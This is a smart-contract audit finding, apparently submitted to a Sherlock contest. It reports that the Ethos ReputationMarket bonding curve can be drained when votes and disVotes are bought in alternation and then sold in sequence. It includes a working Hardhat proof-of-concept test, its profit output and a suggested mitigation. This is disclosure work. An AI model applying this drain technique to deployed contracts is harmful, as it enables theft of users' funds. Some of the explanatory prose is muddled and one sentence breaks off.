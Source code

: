 Straight Slate Bee

High

# Users Can completely Drain The contract Because of the Non-Linear Bonding Curve Buying/Selling architecture

### Summary

Because of The Bonding Curve Mathematical Calculations Buying Votes/disVotes is not the same as selling Votes/disVotes with the same Steps, which can be used to Sell Votes with a Value greater than Buying.


### Root Cause

The protocol uses the Bonding Curve Equation to determine votes/disVotes Price, Users can buy Votes/disVotes from a state (lets stay at the initial state of vote/disVote equal `1`), buy Votes till The number of Votes/disVotes increases to `10` for each in a given sequence. Then, sell the Votes/disVotes they bought in another sequence till the state reset to a number of votes/disVotes is `1` (same as the initial state). The resulting outcoming money for that user when selling will be greater than the money he used in buying in some circumstances as the bonding curve is a non-linear function and changing sequence of change will not result in resetting to the initial state (total buying value equals the value of selling).

[ReputationMarket.sol#L920-L923](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L920-L923)
```solidity
  /**
   * @notice Calculates the buy or sell price for votes based on market state
>> * @dev Uses bonding curve formula: price = (votes * basePrice) / totalVotes
   * Markets are double sided, so the price of trust and distrust votes always sum to the base price
   * @param market The market state to calculate price for
   * @param isPositive Whether to calculate trust (true) or distrust (false) vote price
   * @return The calculated vote price
   */
  function _calcVotePrice(Market memory market, bool isPositive) private pure returns (uint256) {
    uint256 totalVotes = market.votes[TRUST] + market.votes[DISTRUST];
>>  return (market.votes[isPositive ? TRUST : DISTRUST] * market.basePrice) / totalVotes;
  }
```

**Mathematical Explanation**

$$
vote&nbsp;Price = \left( \frac{\text{votes}}{\text{votes} + \text{disVotes}} \right) \cdot \text{basePrice}
$$
$$
disVote&nbsp;Price = \left( \frac{\text{disVotes}}{\text{votes} + \text{disVotes}} \right) \cdot \text{basePrice}
$$

For each increase/decrease operation to either votes/disVotes this results in changing the State of our variables in a non-linear manner, changing votes results in changing the price of both vote and disVote.

The problem here is that in functions as total we analyze its change (weight change) from an initial state. And this is the case for our vote/disVote, weight (delta change in prices vote/disVote).

For any non-linear function `f(x)` the change in `f(x)` depends on the rate of change (derivative) at x.

- `f(x)` is the function `_calcVotePrice()` 
- `x` is the total number of votes and disVotes
- The total price we will use for buying a given quantity of votes/disVotes is the rate of change (derivative) of `f(x)`

Our Function is have two variants dpendent so the rate of change is partial derivative and the changed weight is also partial, for our calculations but this is not the context of issue. In simple words, if we make the total rate of changes of our state for buying as less as possible, and the rate of change of the state when selling as max as possible, this will result in total Change from state (a) to state (b) value is smaller than the total change from state (b) to state (a), and as we explained before that the weight change is the total price paid by the user, this will result for user gaining money when selling more than he gave for buying.

To make the rate of change as less as possible, we can make an alternative voting method. and to make the rate of change as great as possible, we should make a large change buy selling all votes/disVotes at sequential method.

So when buying:
- vote disvote vote disvote ...

When selling:
- vote vote ... disVote disVote ...

This will make the money gained when selling is greater than the money paid when buying and as this is the contract that holds all money doing this will allow user to drain the contract doing this process again and again till it drain it completely with a profite too (as the money he pay for voting is returned to him with addition).


### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

- Buying votes/disVote in alternative method (vote, disVote, vote, disVote, ...)
- Selling votes/disVotes in sequential method (vote, vote, ..., disVote, disVote, ...) 


### Impact

Draining All contract Balance


### PoC

1. Add The following test script in `test/reputationMarket/rep.price.test.ts`

```typescript
    /* eslint-disable */
    it.only('AUDITOR TEST: should return more than paid because of non-linear bonding curve', async () => {
      // We disallowed all fees, so that we can only pay for the Vote
      // We will increase 1 vote, 1 disVote, 1 vote, 1 disVote
      const balanceBeforeAttack = await ethers.provider.getBalance(reputationMarket);

      const votePrice1_1 = await reputationMarket.getVotePrice(DEFAULT.profileId, true);
      await userA.buyVotes({ buyAmount: votePrice1_1 });
      const disVotePrice2_1 = await reputationMarket.getVotePrice(DEFAULT.profileId, false);
      await userA.buyVotes({ buyAmount: disVotePrice2_1, isPositive: false });
      const votePrice2_2 = await reputationMarket.getVotePrice(DEFAULT.profileId, true);
      await userA.buyVotes({ buyAmount: votePrice2_2 });
      const disVotePrice3_2 = await reputationMarket.getVotePrice(DEFAULT.profileId, false);
      await userA.buyVotes({ buyAmount: disVotePrice3_2, isPositive: false });

      const totalPaidByUser = votePrice1_1 + disVotePrice2_1 + votePrice2_2 + disVotePrice3_2;
      console.log('Money Paid by user:', totalPaidByUser);

      // when selling we will decrease 1 vote, 1 vote, 1 disVote, 1 disVote
      const received1 = (await userA.sellVotes({ isPositive: true, sellVotes: 2n }))
        .fundsReceived as bigint;
      const received2 = (await userA.sellVotes({ isPositive: false, sellVotes: 2n }))
        .fundsReceived as bigint;

      const balanceAfterAttack = await ethers.provider.getBalance(reputationMarket);

      const moneyGained = received1 + received2;
      console.log('Money Gained by user:', moneyGained);
      console.log('Gained - Paid (Profit):', moneyGained - totalPaidByUser);
      console.log(
        `Profit Percentage:${(((Number(moneyGained) - Number(totalPaidByUser)) / Number(totalPaidByUser)) * 100).toFixed(2)}%`,
      );
      // Invariant
      expect(balanceBeforeAttack - balanceAfterAttack).to.be.equals(moneyGained - totalPaidByUser);
    });
    /* eslint-enable */
```

2. Make All fees equal zero to give correct calculations. Go to `test/vouch/vouch.fees.test.ts` and mark All fees to zero.

```typescript
13: const entryFee = 0n;
14: const exitFee = 0n;
15: const donationFee = 0n;
16: const vouchIncentives = 0n;
```

3. Run tests by going to `ethos/packages/contracts` and run the following command, no need to right the discribtion as we used `only`, just our test should run at this case.
```bash
npm run test:contracts
```

4. Output

```shell
Money Paid by user: 1733333333333333333n
Money Gained by user: 1816666666666666666n
Gained - Paid (Profit): 83333333333333333n
Profit Percentage:4.81%
```

- As we can see in the script we make a simple buying process (vote, disVote, vote, disVote).
- When selling them we did (vote, vote, disVote, disVote).

The money paid by the user is smaller than the money returned to him by `0.0833e18` he made `4.81%` profit using just 2 votes/disVotes buying/selling in different sequences (alternative for buying, sequential for selling).

In case of 3 vote/disVote the profit will be `8.14%`, and so on.

This will make users make a dummy market and just do these steps until they drain all the contract

Since this money is getting 

**Visualization**

[Google Colabs](https://colab.research.google.com/drive/1zEGQ5FtvdiGRpE63eHDsO90_D8cmoJpB?usp=sharing)

![bonding curve](https://i.ibb.co/JFp3PtQ/download.png)

### Mitigation

The algorithm for Voting and disvoting is implemented using the Bonding Curve, and the problem is as we said mathematically, so This issue will not be mitigated by just doing a single modification.

But for a mitigation example, you can store the balance paid by users in a mapping for each market when buying and when selling you decrease that balance, and in case it gets decreased to `0` don't send money.
